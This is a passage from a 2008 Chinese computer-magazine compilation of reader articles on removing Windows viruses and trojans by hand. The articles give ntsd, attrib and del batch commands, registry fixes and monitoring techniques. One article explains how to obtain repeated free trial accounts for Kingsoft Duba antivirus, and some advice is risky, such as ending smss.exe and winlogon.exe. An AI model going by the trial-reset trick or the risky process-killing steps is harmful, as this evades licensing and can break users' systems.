这里的目标是指找到正在计算机中运行的病毒体，不包括与病毒体相关联的备份文件。目前病毒体一般都是以进程或 DLL的形式存在的，如果病毒是以进程形式存在，那么通过任务管理器就可以直接查看到；如果是以 DLL 形式存在，处理起来就比较麻烦，必须要找到它的宿主文件才行，但通常这类病毒是注入到explorer.exe 中。尼姆亚病毒发作时，会先将卡巴、瑞星、MCP、江民等杀毒软件关闭，同时让任务管理器和注册表无法打开。这时我们需要借助其它工具来打开任务管理器了，我推荐大家使用冰刃（ICESWORD），如图1。

当然，也有一些病毒可能连ICESWORD 也不让打开，我们可以再找个其它可操作进程的工具，好在这种工具网上多的是。打开进程列表后，从中找到可疑的进程，可以从图标和文件名字下手。病毒文件的图标一般都比较奇怪，文件名也常常伪装，比如上图中的 ncscv32.exe 和 runonce.exe 就是伪装成与系统进程ncscv32.exe 及 runonce.exe 差不多的进程名。还有很多病毒经常使用rundll32.exe（注意第6个字母是1而不是I），还有伪装成IExplorer.exe 的，一般我们可以通过它的路径来判断。系统的IExplorer.exe 是在 Program Files 目录下的，如果你的 IExplorer.exe 是在 System32 目录下，那么恭喜你，你一定是中招了。

### 三、终止运行

找到进程体就好办了，接下来要做的就是终止它的运行。一定要记住，必须先终止它的运行后才能进行其它的后继操作。因为倘若不终止它的运行，即使我们找到了它的文件，写入的注册表项，你也没办法修正系统。像冰刃等工具都提供了进程终止功能，我们只需要选中这个病毒进程，右键单击选择“结束进程”即可。但是，病毒一般都还有保护措施，为了防止自己被清除，都会终止一些常见杀毒软件的运行，禁用注册表和任务管理器等，此外还会采用进程相互守护等方式以防止自己被强制终止。所谓进程相互守护，指的是除了病毒进程外，系统里还会运行着一个守护进程（当然是以 DLL 形式插入到系统进程中的），该守护进程的主要作用就是定时查看系统中的病毒进程是否被意外终止，如果被终止的话，则重启病毒进程以保证病毒进程始终存在。比如上图中的runonce.exe，我们直接终止它的话，其进程就会被重启。这就要求我们能够找出它的守护进程了。

我给大家介绍一个工具FileMon，它主要用于对文件系统进行实时监控。说得通俗些，就是能监控你所有进程对磁盘的操作。我们将过滤器定义为只监控与runonce.exe 相关的操作，如图2，这时再直接终止进程，就可以看到是哪个进程启动了runonce.exe，而这个进程就是守护进程。


## 2008 合订本上卷

# 毒霸


# 图 3

除即可。而使用 RegMon 对这两个病毒体进行监控的结果是可以发现它们会修改哪些注册表项，如图 4。

从这些注册表项中，我们能够看到一些非常熟悉的键值，比如 HKCU\\...\\Run 项、HKLM\\...\\Run 项，这就是为什么重启系统后病毒会自动运行的原因。另外，还有 HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Advanced\\Folder\\Hidden\\SHOWALL\\CheckedValue 项，这就是为什么我们没有办法将主机设置为显示隐藏文件的原因。解决的方法是将它们更改为原值。

当然，病毒并不仅仅只修改这几项，在此我只是教给大家一种方法，正所谓授人以鱼，不如授人以渔，学会方法才是最重要的。

查找关联文件的另一种方法就是按特征查找相同的文件，比如修改日期、大小等。病毒为了生存，必定在系统里会有不止一个的备份文件，当我们把正在运行的文件删除后，其它的备份文件仍然会伺机而动。在按照日期或修改时间进行搜索前一定要注意把文件夹的属性设置为显示所有隐藏文件和系统文件，只有这样才能把那些伪装成系统文件的病毒文件抓出来。找出这些文件后还可以将它们放到一起使用系统命令的“comp file1 file2”进行比较，如果完全一样，就说明你没有抓错。

我们可以看到，当终止运行 runonce.exe 时，explorer.exe 会重新启动该进程，也就是说 explorer.exe 就是它的守护进程（其实是监控的 DLL 插入到了 explorer.exe 中），如图 3，我们可以将 explorer.exe 终止，然后再终止 runonce.exe（或选中两个进程同时终止）。经证明，这样终止后，runonce.exe 就不会重启了。注意，当我们终止 explorer.exe 后桌面会消失，此时只需要按 Ctrl+Alt+Del 把任务管理器调出来，选择菜单中的“文件”－“新建任务（运行）”，输入 explorer.exe 就可以恢复桌面了。

### 四、找到关联并清除

实际上这一步才是最麻烦的，因为稍有不慎就可能会出现清除不干净，重启电脑后仍然中毒的情况。那么，我们如何找到病毒的关联体呢？这里所说的关联体包括病毒在磁盘上还写入了哪些副本，修改了哪些注册表项以保证其启动，感染了哪些文件等。这些单靠肉眼是没法找到的，所谓它山之石，可以攻玉，使用工具是必不可少的。我推荐使用 Sysinternal 公司的 FileMon 和 RegMon，FileMon 我们在前边已经见识过了，而 RegMon 则是对注册表实时监控的一款软件。

首先我们需要设置 FileMon 和 RegMon 的过滤器，将已经确定的病毒文件 runonce.exe 和 ncscv32.exe（中间用分号分开）设置为过滤内容，然后我们需要做一个痛苦的决定，就是重新运行一下这两个病毒文件。

俗话说得好：“不入虎穴，焉得虎子”嘛，反正如何终止病毒的方法我们都已经掌握了，还怕什么呢？运行一下这两个病毒文件，然后锁屏看看 FileMon 和 RegMon 吧，有不少的收获哟。

从 FileMon 中，我们可以看到 runonce.exe 会遍历所有磁盘文件，并在有网页文件的目录下创建一个 readme.eml 邮件，该邮件也是病毒，另外还会在所有磁盘根目录新建 autorun.inf 和相应的病毒文件以保证双击时运行。找到这些相关联的文件，将它们删

中就)

### 五、小结

文章看到这儿，相信大家已经对手工杀毒有了一个基本的了解。本文并没有针对某一个病毒详细的介绍它的查杀方法，而是想通过以上的例子教给大家一些手工杀毒的基本方法。在我看来，将冰刃、FileMon、RegMon 这三个工具相互配合使用，能够抓出大多数的木马和病毒，但这仅仅是抓出来，并不表示就能够完全清除。比如感染型病毒，如果病毒把你计算机上所有的可执行文件都感染了，除非你把所有感染的文件都删除，要不没什么办法的。当然，我们还可以依赖杀毒软件的清毒工作，这也是我坚持安装杀毒软件的原因所在。

(文章中涉及到的工具冰刃、FileMon、RegMon 已经收录在光盘中) 图


# 图 4

# 21

# 毒笼

## 2008 合订本上卷

## 菜鸟除马计

高三了，老师把班里计算机的钥匙扔给了我。唉，谁叫咱学习差呢！悲哀归悲哀，不过帮 MM 下载个 mp3 什么的倒方便多了。当然，学校给每个班级配电脑并不是用来讨好 MM 的，所以老师也时不时的使用优盘在疫区和我们班之间进行资源共享。共享的不只有课件，于是故事便开始了。

生物课上老师在使用 powerpoint 复习伴性遗传时，打开了一个 flash 播放器后电脑便卡了起来，要知道这可是 3.2GHz + 512M 内存的电脑，直觉告诉我电脑出了问题，我又有理由下来载 mp3 了！在老师滔滔不绝的育人声中，我注意到屏幕上似乎有个蓝色的框一闪而过，那框似曾相识，于是便盯着屏幕思考起来，连总是说我不听课的老师也夸我听课认真。

学校的电脑是不允许安装与学习无关的东西的，因此电脑上除了 OFFICE 外就只有 Rising（瑞星）了。难道那是 rising 的报警框？如果是的话，那么一闪而过也就说明病毒自动点击了忽略。中午放学后我打开电脑，发现了几个陌生的进程（图 1）。


打开 rising 先扫描一下，扫描出了不少病毒，但没有那个 k19 什么的 exe。我打开任务管理器先记下名字然后再结束进程，就如我意料之中的事，没有任何反应。再看看发现 rising 的小破伞变红了，连小狮子也不知跑到哪儿去了。病毒结束了这么多东西却没有关闭 rising 的主界面。我打开 c 盘，电脑再一次卡了一下。先看一下启动项吧，在“开始”——“运行”栏中输入 msconfig，选中“启动”项，果然多了不少（图 2）。


打开资源管理器，使用左边的加号打开 Windows 目录，这样可以略过双击 c 盘的动作。把相应启动项里的 exe 文件复制出来待查（图 3）。这里我很郁闷，按常理来说，开机自动运行后的文件是没有理由把自己给结束进程的，但我习惯性的按了一下 Del 却发现可以删除。难道这些程序完成了自己的使命？那么这些 exe 是下载了什么或是释放了什么。这些文件最大的 323k，小的也有 100 多 k，应该不是下载者，也就是说这只是母体。接下来的问题是它们释放了什么，极有可能是 dll 了。为了验证我的猜想，我按时间顺序排列了一下图标，果然发现有不少今天创建的 dll 文件（图 4），把这些文件复制一份出来。


病毒都喜欢藏在 windows 和 system32 目录下，这次也不例外，在 system32 目录下排列完图标后我就发现了 k19 兄的身影了，这个家族还真是庞大（图 5）。还有不少的 dll 文件，不用说，也都复制出来。看看时间，该上课了。如果老师现在冲进来我可就要面临惨淡的人生了，把 exe 们上报给 rising，然后关机，上课。


下午放学后，我刚一开机系统便蹦出了个 rundll32 的错误，说 rjr7u84w.dll 失踪了（图 6）。这说明病毒没有恢复我删除的病毒文件，不然就不会有这种缺少 DLL 文件的提示了。重启系统，进入安全模式，使用瑞星卡卡把剩余的启动项都卸载掉，再看一下驱动和服务列表，把多余的都通通清除掉（图 7）。运行 gpedit.msc 把自动运行禁用掉，删除分区下的 autorun.inf 和对应的 rav.exe。


第二天瑞星回复了前 50 个文件的结果，大部分是一个 GameOL 的木马（图 8）。我最后猜想了一下这次中毒的过程，生物老师在打开那个 370k 的 exe 的 flash 播放器后启动了上面捆绑的应该是下载者的木马，下载了 QQ 和 GameOnLine 的木马，GOL 的主文件释放一些随机变种的 k19 们，然后注入 dll 并加入驱动注册服务。打开了自动运行后监视屏幕，一旦有杀毒软件报警便自动点击忽略，于是电脑又中了老师 U 盘中的 autorun 病毒。

## 2008 合订本上卷

# 毒霸

## 看我免费刷金山毒霸N次

我爱大饼

在2008年第一期的X档案上看到了一篇文章“看我无限次刷卡巴7.0半年key”，其实我们也可以用同样方法免费使用金山毒霸N次。

金山毒霸2008集成了金山毒霸、金山网镖和金山清理专家，是目前国内杀毒软件中集成度最高的软件哦。它也没有瑞星、卡巴那样树大招风，整天听人说过瑞星过卡巴什么，想来自己都怕怕了。

从官网http://www.duba.net/下载到的金山毒霸2008是首次使用免费37天，过了37天就要掏腰包了，其实它只是通行证过期了，换个通行证就行了，怎么换呢？卸载掉重新下载吗？金山毒霸有没有反注册我不知道，即使这个方法可行，病毒库也要重新下载，那个数量可是惊人啊。我重新在网上注册通行证，其实根本不用了(使用这个方法对于以前的毒霸2007我是屡试不爽的)，使用金山毒霸给我们的那个KSDA帐号才行。

怎么办呢？其实我们可以去网吧下载，那个网速是超快啊，点击下载按钮后可以闪一边干其他事情，最多十分钟，NEXT一路下来，到最后它就给我们一个前缀为KSDA的帐号和密码叫我们激活，千万别激活哦（哪有两个帐号同时使用的道理？^_^除非金山是傻子），拿笔记下来，回家换通行证吧！其实很多杀毒软件这样做都是为了推广生意，却被我们钻了空子，毕竟现在生意难做啊，呵呵。

```
[R]
工具(T) 帮助(H)
...
40.文件名: k119967286716.exe
病毒名: Malicious Code
...
```


最后，我把病毒文件也一并提供给大家，有兴趣可以分析一下。
（本文所涉及到的病毒文件已收录到光盘中）

## 揭秘360安全卫士 查杀流氓软件的原理

孤独の狼

以前记得有个软件叫做“木马杀客”，查杀木马的依据就是通过文件名和大小来判断的，而我无意中发现360安全卫士查杀流氓软件更绝，其判断流氓软件的依据竟然仅仅依靠的是文件名！事实胜于雄辩，各位菜鸟们请看下面我的经历。

某日中了一个盗号木马，金山毒霸报毒，一个气呵删了三个文件：两个DLL文件和explorer.exe。其中Explorer.exe路径是正确的，明明就是在C:\\windows目录下，看来是这两个DLL注入到Explorer.exe进程中害得Explorer.exe一起被删除了。Explorer.exe被删除的结果当然就是系统重启后桌面没有了，调出任务管理器试图从%system32%\\dllcache中找出Explorer.exe复制回windows目录下，却提示无法复制（图1）。唯一的解释就是金山毒霸在作怪，后来我把金山毒霸关了后果真复制成功。windows目录不能复制过去，%system32%目录总可以了吧！复制过去后并把注册表的HKLMSOFTWAREMicrosoftWindows NTCurrentVersionWinlogon中的shell键值指向了c:\\windows\\system32\\explorer.exe，重启后桌面还是没有出现。问题没有解决，无聊之中我乱点，点到了360安全卫士，报告说发现了恶意插件，一看居然是c:\\windows\\system32\\explorer.exe（图2）。这个文件明明是从dllcache中复制过去的，使用金山毒霸查杀c:\\windows\\system32\\explorer.exe并没有报毒啊！运行它也没有问题，桌面出来了，系统一切正常。难道是360安全卫士查杀流氓软件依据路径和文件名？开始我不相信，后来动手做了几个实验，证实确实如此。

按照上面的推断，如果文件名和病毒名相同的话并且出现在不该出现的目录中（比如explorer.exe应该只在windows目录下，不过我把它复制到了system32目录中），360就报毒。以前有个落雪病毒不是很嚣张吗？我们“假造”几个落雪病毒来试试360安全卫士。上网搜索得知，落雪病毒会在system32目录下生成dxdiag.com、MSCONFIG.com、EXERT.exe等文件。我们先来新建几个空的记事本文件，然后依次把文件名改成dxdiag.com,MSCONFIG.com,EXERT.exe，注意这里要把扩


```
360安全卫士 系统诊断
...
```


# 毒笼

展名也改了。由于是空的记事本，大小当然是0，更不会是病毒木马。接着复制到system32目录中（图3），再启动360安全卫士进行查杀，我的猜测果然是对的（图4）。

这里360只列出了dxdiag.com这个文件，如果删掉它，360又会列出MSCOMFIG.com等等。到这里我们已经可以充分证明360的查杀依据了：路径和文件名。也许你会说360算什么，换金山清理专家吧。经过我的测试金山清理专家也好不到哪里去（图5）。那个spoolsvc我不知道是什么，没有带路径，可是那个所谓的“伪explorer.exe下载者”确实是我复制过去的，一点“清除选定”，我运行的桌面马上就被关闭了，这证明金山清理专家也差不多，好不到哪里去。


图3


图4


图5

前段时间本人中了个ARP病毒，当时国内的金山和瑞星都不能查杀，我就提交了样本并且详细说明了中毒情况，结果一周过去了一点动静都没有，当时真是对国产杀毒软件有些失望，经过这次的测试，看来国产杀毒软件要走的道路还有很长呀。

## 看我乘清除“极速还原”中的流氓插件

Zhrln

前几天气闲着无事，总想找点什么做，打开网页的时候突然看到了个极速还原的广告，看广告的介绍，似乎这个软件还不错，于是就合计着制作一个专版的极速还原来自已使用。在网上查到极速还原的官方网站，发现已经有4.0版本了，马上下载。

该软件有两个文件：Setup.exe以及fakedisk.sys。一个是主程序文件（忘记提醒大家了，极速还原是一款绿色的软件，不需要安装的），一个是驱动文件。这和3.0版本不同，3.0版本只有一个文件，安装时会自动从程序中释放fakedisk.sys。

首先来检查软件是否加了壳，使用Peid载入setup.exe，发现软件是使用“UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo”加的壳。原来是UPX的壳，这个好办，马上拿出UPXShellEx把壳给脱掉（图1）。脱壳前软件为213KB（218624字节），脱壳后变为了466KB（477184字节）。


图1


图2

## 2008 合订本上卷

# 毒笼


个文件名中有install的字样，这更增加了我的疑心（图5）。

接着分别将这四个文件提取出来逐个查看（在解压的时候微点提示有广告软件）：


> 广告软件名称: AdWare.Win32.Agent.amy
程序:
E:\\DESKTOP\\137\\SNAV.DLL
是广告软件！
已成功阻止其运行,是否要删除此文件?

我马上使用 VC 打开 Snav.dll 查看资源，原来是“百度搜 索伴侣”，如图 6。现在终于真相大白了，该把不要的东西删除 了。直接在 VC++ 中删除掉这个资源，如图 7。保存后退出，运 行软件一切正常了，如图 8。到此一个纯净的“极速还原”就被 打造出来了，现在可以放心得使用了。


对于查看资源，我个人比较喜欢使用 VC++ 以资源的形式 来打开查看，如图 2。打开以后我惊奇的发现，怎么居然有了 “cxe”这种资源？难道是捆绑了什么软件？直接将其提取出来 （图 3）。

输出以后，发现是一个自解压的程序包（这肯定是在后台 安装的，不然做成自解压干嘛），如图 4。打开后发现里面的一

（本文所涉及到的极速还原 4.0、VC++6.0 和 UPXShellEx 已收录 到光盘中）

## 令人抓狂的 chmjl 病毒


这学期学校终于开设了众所期盼的 C++ 课程，由于以前我 自学过一点，所以就想借着这次机会到网上查找一些资料来巩 固一下。网络上午人们的一篇篇高深的文章直看得我头晕眼花， 不一会儿就连电脑好像也被我传染了，变的奇卡无比，甚至连 网页都打不开了。不妙，看来是中招了。我在第一时间打开了 任务管理器，果然发现了两个可疑的进程：ykagbri.exe 和 shbddfs .exe（图 1）。

我尝试着直接结束掉这两个进程，但刚一结束，任务管理 器就马上自动关闭。没办法，看来只能使用冰刃了，没想到竟 然连冰刃也死了。我又尝试着打开杀毒软件，果然也死翘翘了。 记得以前也曾经碰到过这种情况，病毒通常都是采用了映像劫持 技术，也就是说病毒通过修改注册表 HKEY_LOCAL_MACHINE \\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options 下的键值来达到屏蔽运行一些安全或杀
毒软件的目的。

打开注册表，找到上述键值，果然不出所料，注册表已经 被修改了（图 2）。

先不急着恢复它，我们来找找病毒到底是藏在哪里的。点 击注册表的“编辑”选项，选择“查找”，在查找目标栏输入病 毒的名称——ykagbri.exe，然后进行查找（图 3）。很快的就查 找出来了，原来病毒是隐藏在 C:\\Program Files\\Common Files\\microsoft shared 目录下的。但当我来到该目录下时，却 没有发现 Microsoft shared 这个文件夹，看来是给隐藏了。这个好 解决，打开我的电脑，选择“工具”下的“文件夹选项”，然后 切换到“查看”项，不会吧，竟然没有“隐藏受保护的操作系统 文件”这一项（图 4）！

这种情况对于病毒来讲已经是家常便饭了，恢复的方法 也是很简单的，修改一下注册表就 OK 了。打开记事本，写入以下


# 毒疮

## 2008 合订本上卷


图1


图2


图3


图4

下内容，然后将文件保存为hh.reg，在注册表编辑器中使用“文件”下的“导入”，将其导入注册表就可以了。

```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\
CurrentVersion\Explorer\Advanced\Folder\SuperHidden]
"Type"="checkbox"
"Text"="@shell32.dll,-30508"
"WarningIfNotDefault"="@shell32.dll,-28964"
"HKeyRoot"=dword:80000001
"RegPath"="Software\\Microsoft\\Windows\\Current
Version\\Explorer\\Advanced"
"ValueName"="ShowSuperHidden"
"CheckedValue"=dword:00000001
"UncheckedValue"=dword:00000000
"DefaultValue"=dword:00000000
"HelpID"="shell.hlp#51103"
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\
CurrentVersion\Explorer\Advanced\Folder\SuperHidden\Policy]
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\
CurrentVersion\Explorer\Advanced\Folder\SuperHidden\Policy
\DontShowSuperHidden]
@=""
```

现在我们再次打开“文件夹选项”，就会发现“隐藏受保护的操作系统文件”已经被恢复了（图5）。选择显示隐藏文件后，来到C:\Program Files\Common Files下的Microsoft Shared以及System目录，这就是病毒的老巢了（图6）。

是不是很想把它们全部删掉？但结果却会让你很失望的，因为即使删除掉，病毒也会马上重新创建。那该怎么办呢？先不要着急，跟我一步步来操作。首先清除注册表中的映像劫持内容，把HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options下的项全部删除掉，然后再结束病毒进程，删除硬盘根目录下的autorun.inf。

打开记事本，输入以下内容，将文件保存为gg.bat，然后在CMD命令提示符下执行该批处理文件。我是将该文件放在C盘桌面目录下的，大家在执行的时候可进行适当修改。

```
cd\
ntsd -c q -p 2792 【注意：此处的PID是我本地电脑的PID对应的下面的进程，请以自己电脑为准】
ntsd -c q -p 2732
ntsd -c q -p 3888
tskill ykagbri.exe
tskill shbddfs.exe
tskill conime.exe
attrib -a -s -r -h autorun.inf
del autorun.inf /f
```

# 毒霸


图5


图6


图7

```
attrib -s -a -h autorun.inf
del autorun.inf
attrib -s -a -h ntutorun.inf
del ntutorun.inf
attrib -s -a -h autorun.inf
del autorun.inf
```

接下来就剩最后一步了，删除C:\Program Files\Common Files\Microsoft Shared下的所有文件，让病毒彻底消失！我怀着激动的心情打算将病毒文件彻底删除。可是很多时候往往就是事与愿违，这病毒就是这么捉弄人，居然不让删除（图7）。

看来一定是病毒插入了哪个进程中，因为正在使用才不让删除的。到底是那些程序正在使用呢？我们可以使用一个功能强大的进程查看工具ProcessExplorer，运行后终于在winlogon.exe进程里发现了病毒文件（图8）。

如果你的office程序正在运行，那么office的进程也会使用C:\Program Files\Common Files\Microsoft Shared下的文件。在结束此进程的时候我还碰到点小麻烦：我们都知道WinLogon.exe是Windows NT登录管理器，它用于处理系统的登录过程。该进程在系统中的作用是非常重要的，如果强行结束的话将会导致电脑重启。我们需要先将smss.exe进程结束，然后再结束WinLogon.exe，这样电脑就不会重启了。好了，进程已经成功结束了，我们现在可以放心大胆的删除病毒文件了。

这个顽固的流氓病毒到此就算被我们彻底消灭了，这一次痛苦的杀毒旅程，同时也是我们成长的经历。正如现在流行的那句话：这是一场游戏，也是我的人生！


图8

（本文所涉及到的病毒文件和Process Explorer已收录到光盘中）

22

# 毒笼

## 和我一起认识最近的流行病毒

### 小鱼

最近因为工作的原因，接触到了一些新种类的病毒和木马，下面我们就一起来分析一下吧。首先来看看这些病毒运行后都做些什么，第一种：运行后让杀毒软件无法正常工作，然后再下载或者运行其它的病毒或木马，这样就能躲避杀毒软件的查杀了。比较常见的实现方法就是进行映像劫持，不过这种方法使用得时间也很长了，对付的办法也早就有了，所以这种方法就目前来讲也并不是一定有效。比如瑞星就有自我保护功能，对瑞星是不能进行映像劫持的。第二种：卸载掉杀毒软件，目前我见到的有这种能力的病毒一般只会卸载瑞星和卡巴，不过按照病毒技术的发展，其它的一些杀毒软件也最终会被加入到卸载的行列。

下边来简单说一下它们卸载杀毒软件的原理，如图1。先检测被种植病毒的电脑里有没有安装瑞星或者卡巴，如果有就检测它们的安装目录。比如瑞星，就找到RAV\Update目录下的setup.exe，然后运行setup.exe，模拟鼠标点击下一步，这样瑞星或者卡巴就会被自动卸载掉，最后就是下载或者运行其它病毒了。还有一种可能，就是卸载掉后，再把杀毒软件给映像劫持了，这样重装杀毒软件也没有用了。


各位小菜跟我来看一个病毒样本，网上有人将其称为瑞星仇杀者，原因是这个病毒运行后，首先就是删除掉瑞星，然后在每一个盘里生成autorun.inf，以达到自动播放来感染病毒的目的。该病毒感染可执行文件，被感染的可执行文件是除了WIN-DOWS或者WINNT目录下所有的可执行文件，感染后文件的图标被替换成了瑞星的狮子头像，还有版权等信息也被替换，可以说这个病毒只是针对安装有瑞星杀毒软件的电脑，因为病毒如果没有找到瑞星的setup.exe文件的话就不再感染文件和生成autorun，正因为以上种种的特点该病毒才被称为瑞星仇杀者。对付这个病毒的方法其实很简单，即使安装了瑞星用户也不要担心，只要我们把瑞星的卸载程序的名字setup.exe改为其它名字就可以了，改名之前要先关闭瑞星的自我保护功能。当然改名字这只是预防的方法，倘若不幸中了这个病毒也不要担心，清理方法也不是太难。首先是关闭计算机的自动播放功能，可以在服务或者组策略里进行关闭，被感染的可执行文件其实只是在原来的文件前面加了信息。分析我得到的病毒样本，感染后是往文件里加了1FFFE大小的信息，我们只要把它去掉就可以了，当然一个个的去掉工作量是有一点大，我们可以重新安装瑞星来清理，这样就可以还原原来的文件了。

我们再来看另外一个很火的病毒——磁碟机，关于该病毒的专杀工具网上有很多，但是效果都不怎么理想，原因就在于磁碟机病毒不断的改进，现在已经加入驱动了，乱发WM_CLOSE消息，TerminateProcess，什么都关，通过加载netapi00.sys恢复SSDT。想打开杀毒软件、冰刃、安全工具？根本没门！它发作时的状况是，不能显示隐藏文件，杀毒软件被打开后，软件的界面一闪而过就没了，就变样了，然后刷新就没有了，每次打开都这样，基本上安全工具和杀毒软件都不能打开。

同样，先来分析一下病毒都做了些什么，释放驱动NetApi000.sys、smss.exe、netcfg.000、netcfg.dll、lsass.exe、dnsq.dll，在每一个盘里放入autorun.inf和pgfile.exe，隐藏文件，还有就是启动项里面随机的名字，前面是“-”开头。这些文件的完整目录，大家可以参看图2所示。

知道病毒都做了些什么，那么就很好解决了，下面我们来清理它。准备一张DOS启动盘，或者你也可以使用矮人DOS工具之类的，因为我们要是DOS下面删除病毒。要注意的是，有一些病毒是在启动目录里，这个目录是带有中文的，而纯DOS下是不支持中文的，那就只有在系统启动后再进行删除了。因为病毒是通过启动来运行自己的，所以我们只要在它启动前删除就可以了，可以利用不启动explorer来达到不启动病毒的目的。启动计算机，然后进入到DOS界面，首先备份explorer，要是担心这个文件也被病毒感染的话，可以在病毒清理后从其它正常的电脑中拷贝一份过来。输入命令copy c:\windows\explorer.exe c:\，将explorer.exe保存到C盘下，然后输入del c:\windows\explorer.exe来删除文件，再执行cd c:\windows\system32\com切换到病毒文件目录。因为病毒会给文件添加系统和隐藏属性，所以我们要先把属性去掉。输入attrib *.* -h -s，然后就可以使用dir命令看看这个文件夹下的所有文件了。依次输入del lsass.exe、del smss.exe、del netcfg.000、del netcfg.dll来删除病毒文件，再输入attrib c:\windows\system32\dnsq.dll -h -s给dnsq.dll文件取消系统和隐藏属性，最后delc:\windows\system32\dnsq.dll将其删除，如图3。

这时候病毒生成的文件就删除得差不多了，不要忘记启动目录里还有病毒，不过在纯DOS下没办法输入中文，就只有先启动计算机了。别忘了，启动后是没有桌面的，因为我们已经


## 2008 合订本上卷

# 毒笼


把explorer文件给删除了。按ctrl+alt+del调出任务管理器，在应用程序那一栏的新任务里输入cmd，打开CMD命令提示符，在命令提示符下就可以输入中文了，如图4。


切换到启动目录，接着输入attrib *.* -h -s 取消掉所有文件的系统和隐藏属性，然后del *.exe 删除病毒启动文件，如图5，图6。这样病毒生成的东西就算是清理干净了。现在来把桌面还原，输入copy c:\explorer.exe c:\windows 将刚才备份出来的文件拷贝回去就行了，如图7。


重新启动计算机，杀毒软件和安全工具就能正常运行了，不要忘记每个盘还有自动播放的病毒，另外就是系统的隐藏文件选项不能正常工作，我们可以打开注册表编辑器，找到如下键值：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\SuperHidden，找到type，将其值修改为checkbox，这样在文件夹选项的“查看”中就可以选择显示隐藏的文件了，如图8，图9。


在“开始”-“运行”栏输入盘符来打开硬盘分区，而不要双击盘符来直接打开，因为那样会再次运行病毒。打开后删除里面的autorun.inf和病毒，最后使用杀毒软件清理被感染的文件吧，因为这个病毒的变种太频繁了，被感染的文件就只有靠杀毒软件来还原了。如果发现杀毒软件也不能还原被感染的文件，可以把病毒上报给你安装的杀毒软件的公司，过几天你电脑上被感染的文件应该就可以还原了。(本文所涉及到的冰刃已收录到光盘中)


## 和病毒战斗到底

chengong

### 一、与病毒的亲密接触


同事电脑里的瑞星打不开了，怀疑是中了病毒，于是就把我这个“高手”请去了。打开Windows的任务管理器，很容易就发现了两个可疑的进程——qjhuosw.exe和iwiwoui.exe。可是当我使用任务管理器结束上面任意一个进程时，任务管理器却自动关闭了，而且冰刃和其它几个常用的进程管理工具也不能运行。

既然辅助工具不能使用，我们就用强大的命令提示符，ntsd命令可用来结束一些常规情况下结束不了的进程。由于这两个病毒进程互相保护和监视，我只好写了个批处理文件来结束它们，在记事本中输入如下内容：

```
ntsd -c q -p 444
```

# 毒笼

## 2008 合订本上卷


件 vleoscg.exe 后再生成一个快照，工具自动对比两个快照生成了一个报告，如图 1。可以看到病毒除了生成 qjhuosw.exe 和 iwiwoui.exe 这两个文件外，还在同目录下生成了 yqpylrr.inf 文件，在 Program Files 文件的根目录生成了 meex.exe，在每个盘的根目录生成了 vleoscg.exe 文件，修改系统文件 verclsid.exe 重命名为 verclsids.exe，并且将卡巴斯基的文件 fidbox.dat 和 fidbox2.dat 也修改了，还可以看到病毒在注册表中增加了很多键值。

我们来分析一下上面这几个病毒文件，qjhuosw.exe、iwiwoui.exe、meex.exe、vleoscg.exe 这四个文件实际上是同一个文件，任何一个文件运行后都可以激活病毒。对于 fidbox.dat 和 fidbox2.dat 这两个文件（只有安装过卡巴才会有这两个文件），网上曾有好多人询问这到底是什么文件？我简单解释一下，这两个文件确实是卡巴斯基的关键系统文件，可为什么很多杀毒软件会报毒

444 和 666 为 qjhuosw.exe 和 iwiwoui.exe 两个病毒进程的 pid 号，这个可以在任务管理器中看到。将文件另存为 ok.bat，运行 ok.bat 就可以将上面两个进程同时结束了。

病毒的进程结束后就可以删除病毒文件了，不过因为这时不能查看隐藏文件，所以还无法找到病毒文件所保存的正常位置，使用以前杂志上介绍的方法导入注册表后，也不能显示隐藏文件。我只好在“开始”—“运行”栏输入 Msconfig，打开了“系统配置实用程序”，根据“系统配置实用程序”中病毒文件的路径，在命令提示符下执行 dir /a（参数 a 是显示所有文件包括隐藏和系统文件）命令进行查找。分别在 c:\program files\common files\microsoft shared\和 c:\program files\common files\system 目录下找到了 qjhuosw.exe 和 iwiwoui.exe 文件，在每个分区的根目录下还可以找到 vleoscg.exe 和 autorun.inf 文件。使用“attrib”命令取消上面几个文件的系统和隐藏属性后，再使用 del 命令删除就可以了。


回到系统配置实用程序，在“启动”项中将 qjhuosw.exe 和 iwiwoui.exe 这二个病毒进程禁止随系统启动，然后运行杀毒软件对硬盘中的所有分区全面杀毒，再使用 360 安全卫士扫描清理后就基本完成杀毒工作了。为了搞清楚病毒的工作原理，删除前我将几个病毒文件拷贝到了 U 盘中，好带回家继续研究。

### 二、病毒详细的工作过程

回到家后在我的电脑上对 U 盘进行杀毒，瑞星提示是 Worm.Win32.AvKiller.cv 病毒，卡巴提示是 Worm.Win32.AutoRun.ast 病毒。根据瑞星的病毒资料得知此病毒是一种木马，但没有很详细的资料。为了了解病毒的工作过程，可以使用文件监视工具“Total Uninstall”来监视病毒对文件和注册表的修改。病毒运行前使用“Total Uninstall”生成一个快照，运行病毒文


220


# 2008 合订本 上卷


呢？使用过卡巴的菜鸟们都知道第一次全盘扫描需要很长时间，以后再扫描时速度就会很快，就是因为卡巴使用了iChecker技术和iSwift技术的原因。fidbox.dat和fidbox2.dat这两个文件就是卡巴的iChecker技术和iSwift技术的核心。这种新技术的作用就是假如你的卡巴的扫描设置（安全威胁特征库和设置）没有改变，使用这个技术可以加快扫描速度，跳过那些在上次扫描后没有改变的文件。看到这儿，各位小菜明白了没有？病毒修改fidbox.dat和fidbox2.dat这两个文件的目的，就是使卡巴扫描文件时跳过病毒可能存在的文件（文件夹），这样就可以更好地隐藏病毒自身。对于这两个在正常状态下不能复制和修改的文件，病毒居然很容易地修改了，并且卡巴也没有发现被修改而继续使用这两个文件，可见病毒制作者不仅对Windows进行了深入的研究，还对卡巴也进行了很细致的研究。

